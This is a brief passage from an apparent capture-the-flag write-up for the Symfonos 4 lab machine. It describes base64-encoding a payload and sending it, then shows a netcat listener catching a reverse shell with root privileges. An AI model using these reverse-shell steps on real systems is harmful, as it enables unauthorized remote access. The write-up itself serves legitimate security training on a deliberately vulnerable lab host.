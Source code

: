 ![](/assets/images/symfonos4/screenshot-12.png)

After we return to encode the data in base64, set up a netcat listener and finally sent the request.

![](/assets/images/symfonos4/screenshot-13.png)

As we can see we get a shell with root privileges.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.138] 58344
uname -a
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
